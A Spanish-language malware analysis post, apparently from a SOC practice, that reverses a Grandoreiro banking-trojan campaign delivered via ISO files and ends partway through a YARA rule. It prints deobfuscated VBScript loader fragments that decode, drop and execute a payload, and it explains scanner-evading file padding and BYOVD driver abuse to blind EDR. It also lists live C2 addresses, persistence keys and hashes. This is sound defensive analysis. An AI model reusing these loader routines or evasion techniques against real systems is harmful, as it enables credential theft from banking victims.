


Todos los IOCs de malware son publicables. Datos de cliente anonimizados.

## Resumen ejecutivo

Durante una práctica en un SOC me tocó una muestra entregada como **archivo `.ISO`** que simulaba un PDF. La descargó una usuaria desde un portal de tickets comprometido —phishing— y la cadena terminaba con un binario Delphi de **284 MB** que dropeaba **quince drivers `.sys`** y abría un canal C2 cifrado hacia una IP en AWS.

Hubo tres veredictos sobre la misma muestra: yo dije **Grandoreiro**, otra lectura fue **RatonRAT**, y el sandbox automatizado (Joe Sandbox) **no asignó familia**. Este post reconstruye toda la lógica del malware —del `Mark-of-the-Web` del ISO hasta el intento de pivotar a Ring 0— y resuelve la discrepancia con evidencia.


**Veredicto.** Es **Grandoreiro**: troyano bancario brasileño en Delphi, operado como *Malware-as-a-Service* desde 2016. Lo confirman, de forma convergente, la **detección multi-AV** (`trojan.grandoreiro`), la **huella del runtime Delphi**, el **algoritmo de descifrado de strings documentado por IBM X-Force**, su **DGA de 14 semillas vía DoH**, sus **módulos de banca** (keylogger, captura, *overlay*) y su **geofencing**. La rareza —y el verdadero hallazgo— es que esta muestra trae un módulo **BYOVD** (driver vulnerable) para cegar al EDR, algo atípico de la familia. **"RatonRAT" fue un falso positivo del sandbox** (lo veremos).


{{< figure src="atribucion.svg" alt="Tablero de atribución de dos paneles. Izquierda, Grandoreiro CONFIRMADO con seis evidencias convergentes: multi-AV trojan.grandoreiro, compilador Delphi, algoritmo de descifrado de strings de IBM X-Force, DGA de 14 semillas vía DoH, capacidades de banker, y geofencing. Derecha, RatonRAT FALSO POSITIVO: sin firma ni config en el sandbox, etiqueta por contactar ip-api.com, RatonRAT es C# mientras el payload es Delphi, y el malware evadió el sandbox." caption="La etiqueta de un sandbox es una hipótesis; la atribución se sostiene en evidencia convergente." >}}

### Tabla de identificación

Trabajé sobre **tres ISO hermanas** de la misma campaña (análisis estático local) y crucé el comportamiento con el reporte de sandbox de un **cuarto sample hermano** (`AnexARCPSA4463.iso`) que el cliente había subido. Conviene mantenerlos separados.

| Artefacto | Tipo | Tamaño | SHA-256 |
|---|---|---|---|
| `6316NM_705841XIHNAO-Reg.iso` | ISO 9660 | 5.75 MB | `c48c0045681613f8a8bfd0c61bd96227245db980297148248ff019a3c4ce039d` |
| `655635JUBXYP8Tiggib_Cpd31725.iso` | ISO 9660 | 8.31 MB | `5bb0440809f417d3ec3ecee6c9d2970ab847e2f491ad23ead200bd00fa4d3aa8` |
| `66352Snc_KS1U64FMSI97918ltst.iso` | ISO 9660 | 5.60 MB | `52333a7f4436591ca13eee54c10a62c74489f35879e9c0fa7435d0e53746bdce` |
| `AnexARCPSA4463.iso` (sandbox) | ISO 9660 | 6.61 MB | `f833c7b350f5fea12de4cfcc42a1eaf47746f2a6369a068ea8715798b110106e` |

Severidad que le asigno: CRÍTICA (robo de credenciales bancarias + BYOVD anti-EDR + persistencia + C2 activo).

---

## Metodología: el orden que doma el caos

Analizar una muestra se siente caótico —saltas de un string a una IP, de un driver a un hash, de una corazonada a otra—. Mi propia investigación arrancó así. Pero hay un pipeline que ordena ese desorden, y la regla es simple: **lo barato primero, lo caro al final, y nada se ejecuta hasta tener el laboratorio listo.** Es el modelo de cuatro niveles de *[Practical Malware Analysis](https://nostarch.com/malware)* (Sikorski & Honig) y de [SANS FOR610](https://www.sans.org/cyber-security-courses/reverse-engineering-malware-tools-techniques/), resumido en la [pirámide de fases de Lenny Zeltser](https://zeltser.com/stages-of-malware-analysis-pyramid/). Las secciones que siguen recorren estas fases en orden.

| Fase | Qué se hace | Herramientas | Dónde, en este post |
|---|---|---|---|
| **0 · Triage + OPSEC** | Laboratorio aislado; **nunca** ejecutar en el host; hash (MD5/SHA-256); procedencia (MOTW/`Zone.Identifier`); tipo real por *magic*, no por extensión | `sha256sum`, `file`, HxD, VM sin red | §1, §3 |
| **1 · Estático básico** | strings, secciones e imports PE, entropía, packer/inflado, YARA, multi-AV — recordando que las etiquetas de AV/sandbox son **indicadores, no veredictos** | `strings`, FLOSS, PEStudio, DiE, YARA, VirusTotal | §3, §4.3, §5.1 |
| **2 · Estático avanzado / reversing** | desensamblado, deofuscación, *carving* recursivo de payloads (base64 → ZIP → PE), descifrado de strings, extracción de config C2 | Ghidra/IDA, CyberChef, Python | §4, §5.3 |
| **3 · Dinámico / comportamental** | VM instrumentada o sandbox: árbol de procesos, persistencia, registro, archivos, red/C2 — con ojo al **anti-análisis** | Procmon, Regshot, Wireshark, INetSim/FakeNet | §7, §8 |
| **4 · Atribución** | convergencia de evidencia; separar señales **fuertes** (firma de familia, lenguaje/compilador, algoritmo, DGA) de **débiles** (auto-label, infra compartida); distinguir *kit de entrega* de *payload* | MITRE ATT&CK, Malpedia, VT Intelligence | §5, §8 |
| **5 · IOCs, detección, reporte** | filtrar ruido benigno, mapear MITRE, escribir YARA/Sigma, técnicas de caza, reporte reproducible con OPSEC | YARA, Sigma, Markdown | §9–§12 |

Dos principios transversales que conviene tener presentes:

- **No es lineal, es un bucle.** Cuando la Fase 1 detecta empaquetado o inflado, no se puede saltar directo al reversing: hay que ejecutar/desempaquetar para obtener la siguiente etapa y **volver al estático sobre ella**. En este caso el bucle fue explícito: VBS → (decode) → ZIP → (extraer) → PE Delphi → (analizar) → payload.



- **Economía de esfuerzo.** El triage y el estático básico son baratos y se hacen siempre, primero; el reversing manual es caro y solo se justifica cuando lo anterior no alcanza (descifrar un C2, entender la lógica de evasión). Y un apunte de OPSEC: subir el *hash* a VirusTotal es seguro, pero **no subir la muestra cruda de un cliente** a plataformas públicas si el ataque es dirigido —alertaría al actor—.


La diferencia entre "saltar de un punto a otro" y un análisis ordenado no es no volver atrás —se vuelve todo el tiempo—, sino **saber en qué fase estás y por qué**. La atribución (Fase 4) viene **después** de juntar la evidencia, no antes: ahí estuvo mi error inicial, y por eso esta vez la dejé para el final.


---

## 1. El incidente (anonimizado)

Una usuaria de una oficina regional del cliente recibió, a través del **portal de tickets de un proveedor de e-commerce** (que el actor usó como plataforma de subida), lo que parecía un PDF. Era una imagen **ISO**. Al hacer doble clic, Windows la montó como unidad óptica; dentro había un VBScript. La usuaria lo ejecutó.

No es casualidad. Desde que Microsoft empezó a bloquear macros de Office descargadas de internet, las **imágenes de disco (ISO/IMG/VHD)** se volvieron el contenedor de moda: Windows las **monta con doble clic**, y durante años el **`Mark-of-the-Web` (MOTW)** no se propagaba a los archivos *dentro* de la imagen, así que el VBS arrancaba sin la advertencia de "este archivo vino de internet".

La respuesta del SOC fue de manual: aislamiento vía EDR, deshabilitación de la cuenta en AD, *full disk scan* con SentinelOne, y —dada la presencia de drivers— sospecha de **BYOVD**. Un detalle que más adelante cobra sentido: **el full disk scan no encontró nada**.

> **Dust —** Un escaneo que vuelve limpio debería tranquilizar. Aquí hizo lo contrario: cuando la herramienta dice "nada" y el contexto grita "algo", el silencio deja de ser ausencia de amenaza y se vuelve un dato. Me quedé con esa incomodidad; al final era la punta del hilo.

---

## 2. La cadena, de un vistazo



---

## 3. Anatomía de la entrega

Las tres ISO comparten estructura exacta. Primero confirmo que vinieron de internet leyendo el **alternate data stream** `Zone.Identifier`:

cat "muestra/6316NM_705841XIHNAO-Reg.iso:Zone.Identifier"

```ini
[ZoneTransfer]
ZoneId=3
```

`ZoneId=3` = zona "Internet". MOTW presente en las tres. Ahora el contenido, sin montar nada (listar ≠ ejecutar):

7z l 6316NM_705841XIHNAO-Reg.iso

```text
   Date      Time    Size   Name
---------- ----- ---------- ------------------------------------------
... 02:17:22   5108548   ContK32OY_Rato54472RVFRNC8QMY-Lgal948291.vbs
... 02:40:40             ~/
... 09:27:04     19224   ~/kiaysx2.xml
... 10:14:52     16648   ~/srio/lnixy/zunxc/ukcg/fixt3.pdf
...                      (10 PDFs señuelo más)
```

El patrón se repite en las tres: **un `.vbs` enorme** (4.7 – 7.6 MB) + un directorio `~` con **PDFs señuelo** legítimos y un par de `.xml`. Los nombres llevan cebos administrativos en español —`Sancion`, `Reg`, `Lgal`, `Compnd`— y los documentos señuelo apuntan a contribuyentes LATAM (facturas argentinas, CFDI mexicanos, un portal fiscal falso).


**Los `.xml` no son XML.** En el sample de sandbox, `FZCEI1.XML` y `QFYDAZ2.XML` son en realidad **DLLs PE32** (`PE32 executable (DLL)`). La extensión `.XML` es para que pasen desapercibidas dentro del ISO y para que firewalls/EDR que inspeccionan contenido las ignoren; el primer stage las carga con `LoadLibrary`/`rundll32`. Y el nombre `ContK32OY_`**`Rato`**`...` que contiene "Rato" es **basura aleatoria con cebos**, no evidencia de "RatonRAT".


Un VBScript legítimo pesa kilobytes. **Megabytes de VBS = relleno y ofuscación.**

---

## 4. Etapa 1 — el loader VBScript

### 4.1 La ofuscación: deobfuscador por `Replace`

Separando la lógica de los blobs aparece el truco:

```vbscript
cmdveTHZcFC = "?~/_*|>.#-"

Function ApukHKKIXiafDyd(hRXlZBSL)
    ApukHKKIXiafDyd = Replace(hRXlZBSL, cmdveTHZcFC, "")
End Function
```

Toda cadena sensible está partida por la basura `?~/_*|>.#-`, que `ApukHKKIXiafDyd()` elimina con un `Replace`. Revertirlo es un único `Replace` de texto —ni hace falta ejecutar el script—:

python3 -c "open('clean.vbs','w').write(open('sample.vbs').read().replace('?~/_*|>.#-',''))"

Con la basura fuera, las cadenas se leen:

```vbscript
' antes:  CreateObject("Script?~/_*|>.#-ing.F?~/_*|>.#-ileSys?~/_*|>.#-t?~/_*|>.#-emOb?~/_*|>.#-j?~/_*|>.#-ect")
Set kgYdHFHxYC      = CreateObject("Scripting.FileSystemObject")
Set NPCTxDcXhqkpX   = CreateObject("WScript.Shell")
Set kYAuVDPyPXV     = CreateObject("Microsoft.XMLDOM")
Set GrKDGfPP        = CreateObject("ADODB.Stream")
```

### 4.2 La lógica completa, paso a paso

**a)** Reconstruye un blob base64 gigante concatenando nueve fragmentos (`gCnLdTjr0..8`).

**b)** Lo decodifica como binario con el clásico truco `Microsoft.XMLDOM` + `ADODB.Stream` (decodifica `bin.base64` y escribe bytes crudos a disco):

```vbscript
Set nodo = kYAuVDPyPXV.createElement("AkbDaTgy")
nodo.DataType = "bin.base64"
nodo.Text     = LzbXLGbyAK
GrKDGfPP.Type = 1            ' adTypeBinary
GrKDGfPP.Open
GrKDGfPP.Write nodo.NodeTypedValue
GrKDGfPP.SaveToFile "%LOCALAPPDATA%\Qztpca...o2.zip", 2
```

**c)** Descomprime el ZIP con `Shell.Application` → `NameSpace().CopyHere` con flag `4` (silencioso).

**d)** Renombra el binario extraído de una extensión señuelo `.cwl` a `.exe` y **lo ejecuta**:

```vbscript
fso.MoveFile "%LOCALAPPDATA%\IRAJDIKhcfTSUBn.cwl", "%LOCALAPPDATA%\Qztpca...o2.exe"
CreateObject("Shell.Application").ShellExecute exePath, "", "", "open", 1
```

**e)** Escribe un **marcador de "ya infectado"** (`.cwl` en `%LOCALAPPDATA%`) con la ruta del exe; en una segunda ejecución relee y relanza sin volver a desempaquetar. **f)** Borra el ZIP.

### 4.3 El PE Delphi inflado a ~116 MB

El binario extraído es un `PE32 GUI Intel i386, 11 sections`. La tabla de secciones cuenta la historia:

```text
 Sección   VSize        RawSize       RawPtr
 .text     0x645e6c     0x646000      0x000400    (~6.6 MB de código)
 .rsrc     0x6ccbe00    0x6ccbe00     0x6fa000    (~109 MB de RELLENO)
 ...
 SizeOfImage = 121.565.184  (~116 MB)
```

La sección `.rsrc` ocupa **114.179.584 bytes (~109 MB)** de un binario de 116 MB. El sandbox lo confirma desde el otro lado: en disco el payload pesa **284.741.120 bytes con entropía 0.42** —una entropía tan baja sobre 284 MB significa que es **casi todo relleno** (imágenes BMP y ceros)—. Incluso el *dropper* intermedio está inflado a **123 MB con entropía 1.21**.

{{< figure src="binary-padding.svg" alt="Visualización del binary padding: una barra proporcional del PE de 116 MB donde el segmento .text (código real) ocupa apenas ~6.6 MB y la sección .rsrc ocupa ~109 MB de relleno rayado. Anotaciones: SizeOfImage 121.565.184 bytes, 284 MB en disco, comprime a 3.7 MB en el ZIP, entropía global 0.42. El escáner ve 116–284 MB y se rinde antes de llegar al código." caption="Binary padding: inflar el binario por encima del límite de escaneo de AV/sandbox, a coste de descarga casi nulo (comprime a ~3.7 MB)." >}}


**Por qué importa.** Muchos AV/sandboxes —y agentes EDR como SentinelOne— imponen un **límite de tamaño** de archivo a escanear (50–100 MB por defecto). Inflar el binario por encima de ese umbral con relleno barato hace que el escáner **se rinda o trunque**. El relleno comprime a casi nada (284 MB → 3.7 MB en el ZIP), así que no hay coste de descarga. Es la técnica que Rising etiqueta, literalmente, como `Malware.SwollenFile`.


> **Dust —** Hay algo casi insolente en derrotar a un motor de análisis con relleno. Nada de criptografía elegante ni de un día cero: 109 MB de imágenes y ceros, apostando a que la defensa se canse antes de llegar al código. La evasión más efectiva no siempre es la más sofisticada; a veces solo abusa de un límite que alguien puso por comodidad.

---

## 5. Confirmando la familia: esto es Grandoreiro

Aquí es donde el envoltorio deja de importar y el payload habla. Cinco líneas de evidencia, independientes, convergen en Grandoreiro.

### 5.1 Detección multi-AV (firma, no asociación)

El primer stage `U3N$hEhsdp15r.exe` (SHA-256 `ad07b5f3…591bc`) lo marcan **9/68 motores en VirusTotal como Grandoreiro**, con firmas específicas de familia —no etiquetas genéricas—:

| Motor | Detección |
|---|---|
| ESET-NOD32 | `Win32/Spy.Grandoreiro.DQ` |
| Fortinet | `W32/Grandoreiro.DQ!tr` |
| Alibaba | `TrojanBanker:Win32/Grandoreiro` |
| AliCloud | `Trojan[stealer]:Win/Grandoreiro.DR` |
| Rising | `Malware.SwollenFile!1.E38A` (el inflado) |

La ISO en sí sale como `trojan.valyria` —la etiqueta **genérica** del dropper VBS—, lo que encaja: Valyria es el cargador, Grandoreiro es el payload.

### 5.2 Compilador Delphi (la huella de la familia)

Grandoreiro está escrito en **Delphi**, y el binario lo grita. Los strings de la RTL (`System.SysUtils`, `TMonitor`, el gestor de memoria FastMM con su *"An unexpected memory leak has occurred"*) y, sobre todo, las claves de registro del runtime confirman **Embarcadero Delphi**:

```text
Software\Borland\Delphi\Locales
Software\CodeGear\Locales
Software\Embarcadero\Locales
```

Esa terna (Borland → CodeGear → Embarcadero, las tres dueñas históricas de Delphi) es la firma del runtime — la misma familia de bankers LATAM en Delphi: Grandoreiro, Mispadu, Casbaneiro, Javali.

### 5.3 El algoritmo de descifrado de strings (IBM X-Force)

Grandoreiro cifra **más de 10.000 strings** con un esquema que [IBM X-Force documentó en detalle](https://www.ibm.com/think/x-force/grandoreiro-banking-trojan-unleashed). El loader de esta muestra lo reproduce: una **clave maestra hardcodeada, codificada en Base64 tres veces consecutivas** (empieza con `D9JL@2]790B{P_D}Z-MXR&EZLI%3W>#VQ4UF+O6XVWB16713NIO!E…`), y luego, por cada string:

1. Decodificación **hex personalizada** (mapeo custom de caracteres a *nibbles*, no hex estándar).
2. Descifrado con el **"algoritmo antiguo de Grandoreiro"** (sustitución basada en la posición del carácter dentro de la clave).
3. **AES-256-CBC** final (la clave y el IV también van cifrados con los pasos 1-3). El payload usa una variante: **AES-ECB** con la implementación `EIAES` de Pascal/Delphi y una capa de decode extra.

Cuatro o cinco capas encadenadas. La pieza de código Delphi que vi —un `switch/case` sobre `System::__linkproc__ UStrCat`— es exactamente la rutina de reconstrucción de cadenas que describe X-Force.

### 5.4 DGA, DoH y formato de C2

El C2 no es una IP estática hardcodeada: Grandoreiro corre un **DGA con 14 semillas distintas** (una por módulo/operador del MaaS), generando dominios *apex* que **rotan a diario** (337 únicos de 732 asignaciones), resueltos por **DNS-over-HTTPS** (vía `dns.google` y Cloudflare `162.159.36.2`) para evadir el monitoreo DNS del endpoint. Ejemplo observado: `stronghealth.mlbfan.org`. El **puerto** se calcula a partir de los primeros dígitos de la IP resuelta, con un mapeo dígito-a-dígito.

Las URLs gigantes hacia el C2 directo son mensajes cifrados:

```text
http://32.192.217.212:5832/SEUwMjBDM0NCNEZFNTFBNk...
```

Según X-Force, cada una concatena el **perfilado de la víctima** con un **comando** (p. ej. `CLIENT_SOLICITA_DDS_MDL`, "el cliente solicita datos del módulo"), lo cifra con el algoritmo Grandoreiro y lo manda como *path* de un `HTTP GET`. Cada URL es, literalmente, un mensaje del implante.

### 5.5 Capacidades de banker y geofencing

Los imports del payload son un manual de troyano bancario:

| Capacidad | APIs | Técnica |
|---|---|---|
| **Keylogger dual** | `SetWindowsHookExW`+`CallNextHookEx` y `GetAsyncKeyState`+`MapVirtualKeyW` | hook clásico + *polling* |
| **Captura de pantalla** | `PrintWindow`, `BitBlt`, `GetDC`, `CreateCompatibleBitmap`, `GetDIBits` | captura la sesión bancaria |
| **Clipboard hijacking** | `OpenClipboard`, `GetClipboardData`, `GetClipboardFormatNameW` | roba/intercambia portapapeles |
| **EWM Injection** | `SetWindowLongW`+`FindWindowExW`+`EnumWindows` | *Extra Window Memory Injection* (T1055.011), histórico de Grandoreiro |
| **Monitor de sesión** | `WTSRegisterSessionNotification` | detecta cuándo el usuario inicia sesión |
| **Descubrimiento de red** | `NetWkstaGetInfo` | enumera máquinas/dominio |
| **C2 multiprotocolo** | `wsock32` (socket crudo) + `winhttp` | dos canales |

Suma un **CAPTCHA falso imitando Adobe Reader** ("Update Needed: PDF Not Compatible") para exigir interacción humana y frustrar sandboxes, la búsqueda de un IOC de **BTC wallets**, y el **geofencing** que IBM documenta: excluye Rusia, Chequia, Polonia y Holanda, y evita máquinas Windows 7 en EE.UU. sin antivirus —coherente con el modelo MaaS, donde el operador que paga elige sus *targets*—.


Ninguna de estas cinco líneas —multi-AV, Delphi, algoritmo de strings, DGA, módulos de banca— es asociación débil. Convergen. **Es Grandoreiro.**


---

## 6. El giro: BYOVD — Grandoreiro con drivers

Aquí está lo que esta muestra tiene de **inusual** para la familia. El dropper escribe **15 drivers `.sys`** en `C:\ProgramData\WareGridiwlgyUpgradeZone\`. Las entropías delatan que la mayoría son drivers **legítimos y firmados** (entropía 1–3), no payloads cifrados.

| Driver | Tamaño | Entropía | MD5 |
|---|---|---|---|
| `AcpiDev.sys` | 57.344 | 3.12 | `1BA19D7AF3DCB34F4EF12A8EAD1521BD` |
| `acpipagr.sys` | 49.152 | 2.27 | `72790ADEC8537AFC3FC6978BDE47F028` |
| `acpipmi.sys` | 53.248 | 2.72 | `83ADAC8EC1C54A24ED4AABD39C3175E2` |
| `CtaChildDriver.sys` | 55.856 | **7.26** | `938C59B39A27AA9370B95D00D4611518` |
| **`DellInstrumentation.sys`** | 46.528 | 6.31 | `375898F9777F5EB58E7D1622D9B3A8AA` |
| `Dmpusbstor.sys` | 57.344 | 2.09 | `3DBCF862C436FDB7417832692802111D` |
| `iaLPSSi_GPIO.sys` | 38.128 | **5.97** | `16A10CCEDCF5AC4CAAE43DC9FC40392F` |
| `iagpio.sys` | 36.352 | 5.85 | `9E5AECAB5F05218D9AC923E7CEA1CE15` |
| `mspqm.sys` | 49.152 | 1.10 | `7E3DA85E4BDB9E89793BF437CEE3E6D0` |
| `mstee.sys` | 53.248 | 1.12 | `7B40C2D5E5201A44A87D7E4E819FDA0D` |
| `MTConfig.sys` | 53.248 | 2.65 | `02A64EC48ECBC3034B76C092268FE574` |
| `NdisVirtualBus.sys` | 57.344 | 3.00 | `A7D3A804A7D2705766DE06B8263495BC` |
| `wmiacpi.sys` | 53.248 | 2.82 | `1BCDBF50818333A964B90AA88D82629B` |
| `wmilib.sys` | 58.704 | 2.62 | `BDFAF39B3AA9ABAFEF4113114B860A27` |
| `ws2ifsl.sys` | 57.344 | 2.86 | `B998B58FD07AE09BC685F95FC4162A22` |

**BYOVD (*Bring Your Own Vulnerable Driver*)**: el atacante, ya admin en *user-mode*, carga un driver **legítimo y firmado** —que Windows acepta sin chistar— pero con una **vulnerabilidad conocida** de lectura/escritura arbitraria de memoria. Con eso salta a **Ring 0 (kernel)** evadiendo *Driver Signature Enforcement*, y desde el kernel puede **cegar al EDR**: borrar callbacks, terminar procesos protegidos (PPL), operar invisible.

El sospechoso es `DellInstrumentation.sys`, catalogado en [**loldrivers.io**](https://loldrivers.io/drivers/86b9c8d6-9c59-4fd4-befd-ab9a36a19e36/) como driver de Dell vulnerable que permite escalación a kernel en Windows 11 (misma clase que **CVE-2021-21551**, con [PoC público](https://dor00tkit.github.io/Dor00tkit/posts/from-admin-to-kernel-one-year-one-driver-zero-attention/)). Detalle forense: el MD5 de la muestra (`375898F9…`) **difiere** del que tiene LOLDrivers (`6f922907…`) → es **otra versión** del mismo driver vulnerable.


**Esto explica el "no encontró nada".** Si el driver fue cargado y el malware neutralizó los callbacks de kernel de SentinelOne, el *full disk scan* corrió con el agente ya **ciego**: sus capacidades de detección fueron eliminadas antes de poder actuar. Dos drivers más (`CtaChildDriver.sys`, entropía 7.26, y `iaLPSSi_GPIO.sys`, 5.97) tienen valores anómalos y merecen análisis aparte.


BYOVD no es TTP histórica de Grandoreiro —es un banker de *overlay*, no un toolkit de kernel—. La lectura más razonable: una **variante con módulo anti-EDR acoplado**, coherente con que Grandoreiro es un MaaS en evolución constante. Es el dato más interesante del caso.

---

## 7. Persistencia, host y C2

**Persistencia** — dos llaves `Run` (máquina y usuario) con un nombre de valor que imita *Intel Graphics Command Center* y funciona como **identificador de campaña**:

```text
HKLM\...\CurrentVersion\Run
  IGCCStartupAgentdDWzZcK1EE0GRL8N = ...\EliteTrackhsvxProcessAdvanced.exe /runas
HKCU\...\CurrentVersion\Run
  IGCCStartupAgentdDWzZcK1EE0GRL8N = ...\EliteTrackhsvxProcessAdvanced.exe
```

El `/runas` busca relanzarse **con elevación**.

**Beacon de registro** — el archivo señuelo `3F8EDB04.xml` es, en realidad, un beacon en base64 que decodifica a:

```text
EliteTrackhsvxProcessAdvanced.exe|C:\ProgramData\WareGridiwlgyUpgradeZone\|13/04/2026|4LrKwBSjqD|3F8EDB04FNTNMA
```

Nombre del payload, ruta, fecha, **ID de operador** (`4LrKwBSjqD`) e **ID de campaña** (`3F8EDB04FNTNMA`). Y `tpkzrehyqygfvbo.cfg` es la **config cifrada con XOR** en el directorio de ejecución (semillas DGA, claves) — comportamiento que Zscaler documentó para Grandoreiro.

**Red** — el C2 directo es `32.192.217.212` (AWS) en puertos altos (157/5832/30449/49741-49749). El resto del tráfico es ruido a separar:


**Higiene de IOCs.** No todo lo que el binario contacta es C2. Son **ruido / benigno**: `ip-api.com` y `api.ipbase.com` (geolocalización), `dns.google` y Cloudflare (la resolución DoH del propio DGA), `nexusrules.officeapps.live.com` (Microsoft, chequeo de conectividad), y **`pesterbdd.com`** (dominio histórico del framework **Pester** de PowerShell — falso positivo clásico). C2 real = la IP + los dominios del DGA. Un dato a vigilar: `eip-terr-na.cdp1.digicert.com.akahost.net` (Akamai CDN para verificación de certificados) aparece en colecciones de VidarStealer/phishing — **infraestructura compartida**, no necesariamente IOC propio.


---

## 8. Y entonces, ¿de dónde salió "RatonRAT"?

Del sandbox. Y vale la pena entender por qué, porque es la lección del caso.

Joe Sandbox **no asignó familia por firma ni por configuración** ("No yara matches", "No configs have been found"). La clasificación fue genérica: `mal100.troj.expl.evad.winISO`. La etiqueta "RatonRAT" aparece solo por **asociación débil**: el sample contactó `ip-api.com` / `208.95.112.1`, IPs que *otros* samples etiquetados RatonRAT (y AgentTesla) también usan para geolocalizar. Coincidencia de infraestructura benigna, no superposición de código.

Y hay un argumento que lo cierra: **RatonRAT es un RAT escrito en C#** (open-source, de poca literatura pública). **El payload es Delphi.** Lenguajes y bases de código distintas: la etiqueta es mecánicamente imposible.


**Por qué el sandbox vio tan poco.** La emulación fue mínima: **1 proceso, 0 conexiones de red, 0 archivos generados**. El malware **detectó el entorno de análisis** (CAPTCHA falso que exige clic humano, chequeo de 12 herramientas —Wireshark, Process Hacker, Fiddler, OllyDbg, x64dbg, Procmon…—, detección de VMware/debuggers) y **no ejecutó su payload**. Con datos conductuales tan pobres, el sandbox cayó en su heurística más débil. Una etiqueta automática de sandbox es una **hipótesis**, no un veredicto: hay que corroborarla con multi-AV, fingerprint de compilador y TTPs de familia.


> **Dust —** Nombrar una amenaza da una falsa sensación de control: con un nombre, el caos parece domesticado. Por eso cuesta resistir la etiqueta cómoda y volver a la evidencia. Tenía razón en el nombre, pero si lo hubiera defendido por orgullo en vez de por pruebas, habría acertado por accidente. Y acertar por accidente no es método: es suerte con buena prensa.

---

## 9. Tabla de IOCs

```text
# ISO (campaña local)
c48c0045681613f8a8bfd0c61bd96227245db980297148248ff019a3c4ce039d  6316NM_705841XIHNAO-Reg.iso
5bb0440809f417d3ec3ecee6c9d2970ab847e2f491ad23ead200bd00fa4d3aa8  655635JUBXYP8Tiggib_Cpd31725.iso
52333a7f4436591ca13eee54c10a62c74489f35879e9c0fa7435d0e53746bdce  66352Snc_KS1U64FMSI97918ltst.iso

# ISO (sandbox AnexARCPSA4463.iso)  ·  VT: trojan.valyria (genérico)
SHA256  f833c7b350f5fea12de4cfcc42a1eaf47746f2a6369a068ea8715798b110106e
MD5     385f227261d22308b185bdb8b30b0815

# VBS inicial
SHA256  21EAD5CD9156B2A0BED2A88AFE15B884A3CD349346FEB8F49A4B9EDA1214ECB0
MD5     FC77190DC272002939629250AE6A07F5

# Primer stage (dropper, 123 MB)  ·  VT: trojan.grandoreiro
SHA256  AD07B5F356F04B7D0E156B9E399FAE3AA232582867AF101ED69021A5E9D591BC
MD5     CA03C717B428BF2DF14A1FB60ABBC4B6

# Payload (EliteTrack = NetgearLogger, 284 MB, entropía 0.42)
SHA256  547D5E64F4F9065FCAED88CC5E4F154F72F0A53425D26EB75109559BF1051E0D
MD5     0508EA6B03CF9D444F93A74393A1DEAB

# DLLs disfrazadas de .XML (PE32 DLL)
MD5  3DB8784DFCA11580984CF02855FB7841  FZCEI1.XML
MD5  116887745E415CA4A27894F1DF2C27C8  QFYDAZ2.XML

# Host
Dir       C:\ProgramData\WareGridiwlgyUpgradeZone\
Run       IGCCStartupAgentdDWzZcK1EE0GRL8N  (HKLM + HKCU)
Marcador  %LOCALAPPDATA%\*.cwl
Beacon    3F8EDB04.xml   ·   Config XOR  tpkzrehyqygfvbo.cfg
Campaña   ID 3F8EDB04FNTNMA   ·   operador 4LrKwBSjqD

# Red — C2 real
IP        32.192.217.212  (AWS)   puertos 157, 5832, 30449, 49741-49749
DGA       14 semillas, apex diario vía DoH (p. ej. stronghealth.mlbfan.org)
URL       http://32.192.217.212:30449/NetgearLoggerBmsrMHVerifyHosting.xml

# Drivers BYOVD: ver tabla §6 (15 hashes); DellInstrumentation.sys vulnerable (loldrivers.io)

# NO son IOC (ruido benigno): ip-api.com, api.ipbase.com, dns.google,
#   nexusrules.officeapps.live.com, pesterbdd.com (Pester PowerShell)
```

---

## 10. Regla YARA

Dos reglas: el **loader VBS** (el rasgo más estable de la campaña) y el **patrón de PE Delphi inflado**.

```yara
rule LATAM_ISO_VBS_Inflated_Loader
{
    meta:
